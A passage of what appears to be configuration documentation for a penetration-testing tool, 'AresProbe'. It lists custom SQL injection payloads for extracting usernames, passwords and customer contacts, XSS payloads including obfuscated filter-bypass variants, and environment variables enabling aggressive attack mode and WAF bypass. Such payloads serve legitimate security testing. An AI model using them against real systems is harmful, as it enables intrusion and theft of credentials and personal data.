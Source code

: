 ```python
        'data_extraction': [
            "' UNION SELECT username,password FROM users--",
            "' UNION SELECT email,phone FROM customers--"
        ]
    }
}
```

### XSS Payloads

```python
custom_xss_payloads = {
    'basic': [
        "<script>alert('XSS')</script>",
        "javascript:alert('XSS')",
        "<img src=x onerror=alert('XSS')>"
    ],
    'advanced': [
        "<svg onload=alert('XSS')>",
        "<iframe src=javascript:alert('XSS')>",
        "<body onload=alert('XSS')>",
        "<input onfocus=alert('XSS') autofocus>"
    ],
    'bypass': [
        "<ScRiPt>alert('XSS')</ScRiPt>",
        "<script>alert(String.fromCharCode(88,83,83))</script>",
        "<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))>"
    ]
}
```

## Environment Variables

### Core Configuration

```bash
# AresProbe Core Settings
export ARESPROBE_LOG_LEVEL=INFO
export ARESPROBE_TIMEOUT=30
export ARESPROBE_THREADS=20
export ARESPROBE_MAX_MEMORY=0.8
export ARESPROBE_CACHE_SIZE=10000

# Performance Settings
export ARESPROBE_OPTIMIZATION_LEVEL=aggressive
export ARESPROBE_ENABLE_PROFILING=true
export ARESPROBE_MEMORY_TRACKING=true

# Security Settings
export ARESPROBE_ATTACK_MODE=aggressive
export ARESPROBE_ALLOW_DESTRUCTIVE=false
export ARESPROBE_WAF_BYPASS=true

# Network Settings
export ARESPROBE_PROXY_ENABLED=true
export ARESPROBE_PROXY_PORT=8080
export ARESPROBE_VERIFY_SSL=false
export ARESPROBE_FOLLOW_REDIRECTS=true

# AI/ML Settings
export ARESPROBE_AI_ENABLED=true
export ARESPROBE_ML_MODELS_PATH=./models/
export ARESPROBE_AI_CONFIDENCE=0.7
```